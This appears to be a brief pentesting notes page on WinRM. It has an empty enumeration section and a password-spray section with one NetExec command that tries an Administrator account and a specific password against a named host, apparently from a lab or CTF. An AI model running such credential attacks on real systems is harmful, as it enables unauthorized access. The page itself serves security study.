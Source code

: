 ```yaml
---
description: Windows Remote Management
icon: window-frame-open
---
```


# WinRM

<details>

<summary><mark style="color:purple;"><strong><code>Enumeration</code></strong></mark></summary>



</details>

<details>

<summary><mark style="color:purple;"><strong><code>Password Spray</code></strong></mark></summary>

{% code title="" overflow="wrap" %}
```sh
nxc winrm compatibility -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.' --no-bruteforce
```
{% endcode %}

</details>

